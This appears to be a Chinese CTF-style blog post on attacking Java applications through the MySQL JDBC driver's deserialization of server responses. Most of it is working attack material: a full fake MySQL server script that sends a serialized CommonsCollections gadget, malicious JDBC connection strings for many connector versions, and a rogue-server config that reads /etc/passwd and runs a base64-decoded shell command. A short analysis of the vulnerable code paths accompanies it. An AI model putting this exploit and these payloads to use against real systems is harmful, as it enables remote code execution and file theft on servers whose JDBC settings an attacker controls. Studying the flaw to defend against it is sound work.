








前言
经常在CTF中遇到这种JDBC反序列化，这次来学一下利用的思路。
前提条件
1. Jdbc可控且目标机器出网。
2. 存在反序列化漏洞链。
Jdbc-Mysql依赖
<dependency>
<groupId>mysql</groupId>
<artifactId>mysql-connector-java</artifactId>
<version>8.0.13</version>
</dependency>触发点
这里环境是mysql8，如果是其它版本的mysql还需要修改一下jdbc链接的参数。
public static void main(String[] args) throws Exception{
Class.forName("com.mysql.jdbc.Driver");
String jdbc_url = "jdbc:mysql://127.0.0.1:3309/17man?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor";
Connection con = DriverManager.getConnection(jdbc_url, "root", "root");
}漏洞复现
生成反序列化链的payload。
{kind=link}
fakeMysql
使用工具https://github.com/fnmsd/MySQL_Fake_Server或者下面的代码。
# coding=utf-8
import socket
import binascii
import sys
import os
greeting_data="4a0000000a352e372e31390008000000463b452623342c2d00fff7080200ff811500000000000000000000032851553e5c23502c51366a006d7973716c5f6e61746976655f70617373776f726400"
response_ok_data="0700000200000002000000"
def receive_data(conn):
data = conn.recv(1024)
print("[*] Receiveing the package : {}".format(data))
return str(data).lower()
def send_data(conn,data):
print("[*] Sending the package : {}".format(data))
conn.send(binascii.a2b_hex(data))
def get_payload_content():
#file文件的内容使用ysoserial生成的 使用规则：java -jar ysoserial [Gadget] [command] > payload
file= r'payload'
if os.path.isfile(file):
with open(file, 'rb') as f:
payload_content = str(binascii.b2a_hex(f.read()),encoding='utf-8')
print("open successs")
else:
print("open false")
#calc
payload_content='aced0005737200116a6176612e7574696c2e48617368536574ba44859596b8b7340300007870770c000000023f40000000000001737200346f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6b657976616c75652e546965644d6170456e7472798aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563743b4c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e7471007e00037870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001b00000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e001b7371007e00137571007e001800000002707571007e001800000000740006696e766f6b657571007e001b00000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e00187371007e0013757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000463616c63740004657865637571007e001b0000000171007e00207371007e000f737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000077080000001000000000787878'
return payload_content
# 主要逻辑
def run():
while 1:
conn, addr = sk.accept()
print("Connection come from {}:{}".format(addr[0],addr[1]))
# 1.先发送第一个 问候报文
send_data(conn,greeting_data)
while True:
# 登录认证过程模拟 1.客户端发送request login报文 2.服务端响应response_ok
receive_data(conn)
send_data(conn,response_ok_data)
#其他过程
data=receive_data(conn)
#查询一些配置信息,其中会发送自己的 版本号
if "session.auto_increment_increment" in data:
_payload='01000001132e00000203646566000000186175746f5f696e6372656d656e745f696e6372656d656e74000c3f001500000008a0000000002a00000303646566000000146368617261637465725f7365745f636c69656e74000c21000c000000fd00001f00002e00000403646566000000186368617261637465725f7365745f636f6e6e656374696f6e000c21000c000000fd00001f00002b00000503646566000000156368617261637465725f7365745f726573756c7473000c21000c000000fd00001f00002a00000603646566000000146368617261637465725f7365745f736572766572000c210012000000fd00001f0000260000070364656600000010636f6c6c6174696f6e5f736572766572000c210033000000fd00001f000022000008036465660000000c696e69745f636f6e6e656374000c210000000000fd00001f0000290000090364656600000013696e7465726163746976655f74696d656f7574000c3f001500000008a0000000001d00000a03646566000000076c6963656e7365000c210009000000fd00001f00002c00000b03646566000000166c6f7765725f636173655f7461626c655f6e616d6573000c3f001500000008a0000000002800000c03646566000000126d61785f616c6c6f7765645f7061636b6574000c3f001500000008a0000000002700000d03646566000000116e65745f77726974655f74696d656f7574000c3f001500000008a0000000002600000e036465660000001071756572795f63616368655f73697a65000c3f001500000008a0000000002600000f036465660000001071756572795f63616368655f74797065000c210009000000fd00001f00001e000010036465660000000873716c5f6d6f6465000c21009b010000fd00001f000026000011036465660000001073797374656d5f74696d655f7a6f6e65000c21001b000000fd00001f00001f000012036465660000000974696d655f7a6f6e65000c210012000000fd00001f00002b00001303646566000000157472616e73616374696f6e5f69736f6c6174696f6e000c21002d000000fd00001f000022000014036465660000000c776169745f74696d656f7574000c3f001500000008a000000000020100150131047574663804757466380475746638066c6174696e31116c6174696e315f737765646973685f6369000532383830300347504c013107343139343330340236300731303438353736034f4646894f4e4c595f46554c4c5f47524f55505f42592c5354524943545f5452414e535f5441424c45532c4e4f5f5a45524f5f494e5f444154452c4e4f5f5a45524f5f444154452c4552524f525f464f525f4449564953494f4e5f42595f5a45524f2c4e4f5f4155544f5f4352454154455f555345522c4e4f5f454e47494e455f535542535449545554494f4e0cd6d0b9fab1ead7bccab1bce4062b30383a30300f52455045415441424c452d5245414405323838303007000016fe000002000000'
send_data(conn,_payload)
data=receive_data(conn)
elif "show warnings" in data:
_payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f000059000005075761726e696e6704313238374b27404071756572795f63616368655f73697a6527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e59000006075761726e696e6704313238374b27404071756572795f63616368655f7479706527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e07000007fe000002000000'
send_data(conn, _payload)
data = receive_data(conn)
if "set names" in data:
send_data(conn, response_ok_data)
data = receive_data(conn)
if "set character_set_results" in data:
send_data(conn, response_ok_data)
data = receive_data(conn)
if "show session status" in data:
mysql_data = '0100000102'
mysql_data += '1a000002036465660001630163016301630c3f00ffff0000fc9000000000'
mysql_data += '1a000003036465660001630163016301630c3f00ffff0000fc9000000000'
# 为什么我加了EOF Packet 就无法正常运行呢？？
# 获取payload
payload_content=get_payload_content()
# 计算payload长度
payload_length = str(hex(len(payload_content)//2)).replace('0x', '').zfill(4)
payload_length_hex = payload_length[2:4] + payload_length[0:2]
# 计算数据包长度
data_len = str(hex(len(payload_content)//2 + 4)).replace('0x', '').zfill(6)
data_len_hex = data_len[4:6] + data_len[2:4] + data_len[0:2]
mysql_data += data_len_hex + '04' + 'fbfc'+ payload_length_hex
mysql_data += str(payload_content)
mysql_data += '07000005fe000022000100'
send_data(conn, mysql_data)
data = receive_data(conn)
if "show warnings" in data:
payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f00006d000005044e6f74650431313035625175657279202753484f572053455353494f4e20535441545553272072657772697474656e20746f202773656c6563742069642c6f626a2066726f6d2063657368692e6f626a73272062792061207175657279207265777269746520706c7567696e07000006fe000002000000'
send_data(conn, payload)
break
if __name__ == '__main__':
HOST ='0.0.0.0'
if (len(sys.argv) < 2):
print("输入监听PORT参数")
exit(0)
PORT = int(sys.argv[1])
sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#当socket关闭后，本地端用于该socket的端口号立刻就可以被重用.为了实验的时候不用等待很长时间
sk.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sk.bind((HOST, PORT))
sk.listen(1)
print("start fake mysql server listening on {}:{}".format(HOST,PORT))
run()
开启fakeMysql，触发链接时候的反序列化。
{kind=link}
漏洞分析
总的触发原因是通过Jdbc连接MYSQL时，会有几个内置的SQL查询语句执行(主要利用的查询语句是SHOW SESSION STATUS和SHOW COLLATION)。 而MYSQL返回的结果集有BIT和BLOB两种数据类型会调用ObjectInputStream.readObject()进行反序列化操作转化为java对象。 所以，构造恶意的fakeMysql返回恶意反序列化数据搭配jdbc触发的查询即可利用。
首先来看BIT类型(Bit数据类型用来存储bit值)数据的触发点，会先判断filed是否为binary或者blob，然后判断jdbc的参数autoDeserialize是否为true， 最后判断data开头是否为java序列化魔术头。
{kind=link}
这里是BLOB类型数据的触发点，判断条件与上面BIT类型的一样。BLOB为二进制形式的长文本数据，大小是0-65535bytes。
{kind=link}
ServerStatusDiffInterceptor
jdbc:mysql://127.0.0.1:3309/17man?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
再回过头看一开始的payload，可以看到除了上面提到的autoDeserialize参数，还有一个queryInterceptors参数， 从这个参数的值可以看出这种利用方式为ServerStatusDiffInterceptor触发。
这个queryInterceptors参数存放用来分隔结果的class列表，里面的class都实现了com.mysql.cj.interceptors.QueryInterceptor接口。 来跟进一下看看他是怎么触发查询语句的。首先会调用preProcess方法，进入populateMapWithSessionStatusValues方法。
{kind=link}
在populateMapWithSessionStatusValues方法内，可以看到执行了SHOW SESSION STATUS语句， 并将结果传入ResultSetUtil.resultSetToMap方法。
{kind=link}
在ResultSetUtil.resultSetToMap方法内可以看到了一开始说的那个getObject触发点，这里便从恶意Mysql服务器返回数据触发反序列化了。
{kind=link}
detectCustomCollations
因为两种触发方式在不同版本不同，所以还需要改一下依赖，这个触发点针对低版本。
<dependency>
<groupId>mysql</groupId>
<artifactId>mysql-connector-java</artifactId>
<version>5.1.29</version>
</dependency>这里使用前面提到的工具https://github.com/fnmsd/MySQL_Fake_Server， 这个工具集成的不错，但用户名那里得去看下源码的逻辑会比较清楚怎么改。yso执行的命令如果有空格直接换成下划线即可。
{
"config":{
"ysoserialPath":"/java/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar",
"javaBinPath":"java",
"fileOutputDir":"./fileOutput/",
"displayFileContentOnScreen":true,
"saveToFile":true
},
"fileread":{
"win_ini":"c:\\windows\\win.ini",
"win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
"win":"c:\\windows\\",
"linux_passwd":"/etc/passwd",
"linux_hosts":"/etc/hosts",
"index_php":"index.php",
"ssrf":"https://www.baidu.com/",
"__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]
},
"yso":{
"yso_CommonsCollections6_bash_-c_{echo,b3BlbiAvU3lzdGVtL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcA==}|{base64,-d}|{bash,-i}":["CommonsCollections6","bash -c {echo,b3BlbiAvU3lzdGVtL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcA==}|{base64,-d}|{bash,-i}"]
}
}{kind=link}
同时改一下JDBC的payload。
public static void main(String[] args) throws Exception{
Class.forName("com.mysql.jdbc.Driver");
String jdbc_url = "jdbc:mysql://127.0.0.1:3309/test?detectCustomCollations=true&autoDeserialize=true&user=yso_CommonsCollections6_bash_-c_{echo,b3BlbiAvU3lzdGVtL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcA==}|{base64,-d}|{bash,-i}";
Connection con = DriverManager.getConnection(jdbc_url, "yso_CommonsCollections6_bash_-c_{echo,b3BlbiAvU3lzdGVtL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcA==}|{base64,-d}|{bash,-i}", "");
}触发点在com.mysql.jdbc.ConnectionImpl#buildCollationMapping，这里的条件是mysql-connector-java依赖版本大于等于4.1.0，并且detectCustomCollations为true。 之后执行SHOW COLLATION语句，当依赖满足大于5.0.0就会将查询结果带进Util.resultSetToMap方法，后面就跟上面带触发点是一样的流程。
{kind=link}
ServerStatusDiffInterceptor触发payload
(1) MYSQL8.x:
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc
(2) MYSQL6.x(属性名不同):
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc
(3) MYSQL5.1.11及以上的5.x版本(包名改了):
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc
(4) MYSQL5.1.10及以下的5.1.X版本: 同上，但是需要连接后执行查询。
(5) MYSQL5.0.x: 还没有ServerStatusDiffInterceptor。
detectCustomCollations触发payload
(1) MYSQL5.1.41及以上: 不可用
(2) MYSQL5.1.29-5.1.40:
jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc
(3) MYSQL5.1.28-5.1.19:
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc
(4) MYSQL5.1.18以下的5.1.x版本: 不可用
(5) MYSQL5.0.x版本: 不可用
There Is Nothing Below
 Turn at the next intersection.
Turn at the next intersection.